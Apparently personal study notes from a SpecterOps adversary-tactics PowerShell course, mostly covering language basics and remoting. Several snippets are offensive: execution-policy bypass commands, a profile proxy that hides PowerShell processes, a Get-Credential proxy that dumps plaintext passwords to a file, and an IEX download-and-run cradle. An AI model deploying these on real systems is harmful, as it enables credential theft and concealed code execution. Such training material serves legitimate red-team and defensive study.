


# Speccterops powershell training

https://raw.githubusercontent.com/specterops/at-ps/master/Adversary%20Tactics%20-%20PowerShell.pdf

# powershell

PowerShell itself is actually System.Management.Automation.dll
which is a dependency of various hosts (like powershell.exe)
• Other “official” script hosts exist, some of which we’ll cover later in the day
• In fact, ANY .NET application can utilize System.Management.Automation
to easily build a PowerShell pipeline runner, covered later today

we can downgrade powershell with pwershell.exe -Version 2

### Determining installed versions

(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion

### Execution Policy

A perception remains that execution policy is a security protection that prevernts unsigned scripts from being loaded

powershell.exe -exec bypass
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/

.ps1 = powershell script
.psm1 = a powershell module file
.psd1 = a powershell module manifest
.ps1xml = an object formatting file

Get-Command
Get-Help

Get-member - to get object

$p = Get-Process notepad
• $p | gm -force

to know overloaded function dont add () to functions
$p = Get-Process notepad
$p.CloseMainWindow

### pipeline

powerhsell cmdlets return completet objects in the pipeline

`Get-Process notepad | stop-Process -Force`

Write-host breaks the pipeline

### PSDrives

A pointer to a data structure that is managed by something called PSProvider
    Get0PSProvider. Get-PSDrive

Get-Help Get-PSDrive

### PowerShell Profiles

Scripts that run every time an “official” PowerShell host (meaning
powershell.exe/powershell_ise.exe) starts
• Meant for shell customization
• Not loaded with remoting!
• i.e. the PowerShell version of /etc/profile
• You can check your current profile with $profile
• Profiles can be subverted with malicious proxy functionality!
• More information: http://www.exploitmonday.com/2015/11/investigating-subversive-powershell.html
• More information: Get-Help about_Profiles

%windir%\System32\WindowsPowerShell\v1.0\profile.ps1

# exporting and importing powershell objects

function... | Export-Clixml output.xml exports an XML-based
representation of one or more objects that can later be reimported with Import-CliXML

# Variables

$ followed by any combination of numbers and (case-insensitive)
letters
• If using New-Variable, you can specify non-printable characters!
• New-Variable -Name ([Char] 7) -Value 'foo'
• To see more information about all of the automatic variables (like
$ENV) run Get-Help about_Automatic_Variables
• If you want to list all of the variables in your current scope:
• Get-ChildItem Variable:\
• To cast a variable to a specific type, use [Type] $Var

### Common Operators
```
Arithmetic: +, -, *, /, %
• Assignment: =, +=, -=, *=, /=, %=
• Comparison: -eq, -ne, -gt, -lt, -le, -ge (also the regex operators)
• Logical: -and, -or, -xor, -not, !
• Redirection: >, >>, 2>, 2>>, and 2>&1
• Type: -is, -isnot, -as
• Special: @(), & (call), [] (cast), , (comma), . (dot-sourcing), .. (range),
$() (sub-expression)
• More information: Get-Help about_Operators
• Each operator type has an about_X_Operators doc as well
```
### array 
$arrya = 4,6,1,60,23,53
$arrya = @4,6,"s",60,"yes",5.3)
[int32[]]$array = 1500,1600,1700,1800

### common array operators
```
$array.Count
$array[-1..-$array.length] : reverse an array
$array += $value
immutable so instead we can use ArrayList 
$ArrayList = New-Object System.COllections.ArrayList
$ArrayList.Add($value) and $ArrayList.Remove($Value)
$ArrayList.ToArray()
```
### Hashtables

$hash = @{Number=1; Shape="Square";Color="Blue"}
$hash

### COmmon hashtable operations

```
$hash.keys, $hash.values, $hash.Add('Key', 'Value')
$hash = $hash + @{Key="Value"}
$hash.Remove("Key")

turning hashtable into an object
[<class>]@{<name>=<value>; [<name>=<value>]}
```
### Splatting with Hashtable

$Args = @{Path="test.txt";Destination="test2.txt",WhatIf=$true}
Copy-Item @Args

### Subversive Profiles
a profile that hides any powershell.exe from Get-Process

# mini lab
Build a subversive profile that hides any powershell.exe instances
from Get-Process
• Check out the “call operator”!

```
16

The call operator & allows you to execute a command, script or function.

Many times you can execute a command by just typing its name, but this will only run if the command is in the environment path. Also if the command (or the path) contains a space then this will fail. Surrounding a command with quotes will make PowerShell treat it as a string, so in addition to quotes, use the & call operator to force PowerShell to treat the string as a command to be executed.
```

```powershell
$Function = Get-Command Get-Process


#$PSBoundParameters can be used to call a subordinate function or cmdlet passing the same parameters - PowerShell will automatically splat the hash table's values instead of having to type each of the parameters:
#get-otherthing @PSBoundParameters

function Get-Process {
    param(
        $Name, 
        $Id,
        $InputObject,
        $IncludeUserName,
        $ComputerName,
        $Module,
        $FileVersionInfo
    )
    Write-Host -ForegroundColor "Red" -Object "cmd.exe calc.exe"
    & $Function @PSBoundParameters | Where-Object {$_.ProcessName -notmatch 'powershell'}
}
```



other ways to do it

```powershell
function Get-Process {
	param(
		$Name,
		$Id,
		$InputObject,
		$IncludeUserName,
		$ComputerName,
		$Module,
		$FileVersionInfo
	)
	Write-Host -ForegroundColor "Red" -Object "Hello from malicious Get-Process!"
	$Function = $ExecutionContext.InvokeCommand.GetCommand('Microsoft.PowerShell.Management\Get-Process', [System.Management.Automation.CommandTypes]::Cmdlet)
	& $Function @PSBoundParameters | Where-Object {$_.ProcessName -notmatch 'powershell'}
}
```


• (Bonus) food for thought:
• How would you write a malicious Get-Credential proxy?
```powershell
$Function = GetCommand Get-Credential

function get-Credential {
    param(
        $Credential,
        $MEssage,
        $UserName
    )

    Write-Host "Hello from the other side"
    $Ooutput = & $Function @PSBoundParameters
    "$($Output.Username):$($Output.GetNetworkCredential().Password)" | Out-File cred.txt
    Write-Host -ForegroundColor "Red" -Object "Credential output to cred.txt"
    $Output
}
```
didnt quite work:


• How would you use a subversive profile for lateral movement? ;)


• The solution is in .\Labs\Day 1\Subversive Profiles\
https://github.com/specterops/at-ps/blob/master/Labs/Day%201

# Strings

"" - double quoted strings and herestrings @".."@ exoand sub expressions and variables

we can use single quotes for no expansion
```
$a.SubString(X)
$a.SubString(X,Y)
$a.split(".")
$a.PadLeft(10)/$a.PadRight(10)
$a.ToByteArray()
$a.CompareTo($b)
[string]::Compare($a, $b, $True)
$a.startsWith("string")/$a.endsWith("string")
$a.ToLower() / $a.ToUpper() : return a new lowercase (or
uppercase) version of the string
• $a.Contains(“string”) : strings in strings yo’, case-sensitive
• $a.Replace(“string1”, “string2”) : string replacement
```

# Regular Expressions

-match and -notmatch operators. For case sensitive matches we can use -cmath and -cnotmatch

```
"\\Server2\Share" -match "^\\\\\w+\\\w+"
• $email -notmatch "^[a-z]+\.[a-z]+@company.com$"
• -match will auto-populate the $Matches variable if it’s used on a single
variable (not an array)
```

# Select string (sls)

Finds text in strings and files

`sls ‘pattern’ .\file.txt -CaseSensitive`

# Logic - if/elseif/else

if{}elseif{}else{}

# Logic switch

$Message = switch -wildcard($a){}

# Logic Try catch finally
```powershell
try {
    $wc = new-object System.Net.WebClient
    $wc.DownloadFile("http://path")
}

catch [System.Net.WebException], [System.IO.IoException] {
    "unable to download"
}
catch {
    "An error occured"
}

```

# Logic ForEach
```powershell
$Processes = get-Process
ForEach($Process in $Processes) {
    $Process.Name
}
```

# Logic ForEach-Object

ForEach-Object also represented by %. inidvidual object is represented by $_

```powershell
Get-Process | % {$_.Name}
```

# Logic While and Do/While

```powershell
$val =0

while($val -ne 10){
    $val++
    $val
}
```

# Filtering

Where-Object (?) - filter object with specific properties

`Get-DomainUser | ? {$_.lastlogon -gt [DateTime]::Today.AddDays(-1)}`

ForEach-Object (%) - Executes a scriptblock on each object 

```powershell
Get-DomainUser -Domain dev.testlab.local | % { if($_.scriptpath) 
{$_.scriptpath.split("\\")[2] }}
```

# basic Analysis

```powershell
get-Process | sort-object handles - descending
Get-WmiObject win32_process | Group-Object ParentProcessId
```

# output options

```powershell
Get-Process | Format-List 
```

# custom psobject - hashtables

```powershell
New-Object PSObject -Property ([ordered]@{
    Name = 'object'
    Value1 = 'coolstuff'
    Value2 = 'morecoolstuff'
})
```

# interfacing with .NEt static methods

Static methods are accessible with [namespace.Class]::Method()

example base64 encoding a text:
```powershell
$Bytes = [System.Text.Encoding]::UNicode.getBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
```

To get the static methods
`[Text.Encoding] | Get-Member -Static`

To examin the arguments 
`[Text.Encoding]::Convert`

# Interfacing with .Net instance methods

```
 $Client = New-Object Net.Webclient
• $Client | Get-Member (examine object methods/properties)
• $Client.DownloadString (examine arguments for a method)
• $String = $Client.DownloadString(“https://legit.site/notmalware.ps1”)
• IEX $String
```

## Lab Folder permission enumeration

code that enumerates all directories within System32 or %PATH% that NT AUTHORITY\Authenticated users can write to

## Lab Service binaries 

Code that returns the path of any service binary thats not signed by Microsoft

# powershell remoting

A protocol that allowss running powershell commands on a single or multiple remote systems

WinRM - is Encrypted
Kerberos Authentication by Default
Network authentication - credentials are not passed to remote systems

# enable powershell remoting

1. start WinRM service
2. set WinRM service startup type to automatic
3. Create WinRM listener
4. Allow Winrm requests through local firewall

# PSRP ACLs

1. The ACL for each powershell remote endpoint can be set
`Get-PSSessionCOnfiguration | select-Object -ExcludeProperty Permission`

# WINRM LISTNERS

Kereberos authentication is reauired

# Connecting to Non-Domain Systems

PS Remoting is limited to systems that meet the follwing criteria :

1. kerberos authentication
2. Domain joined


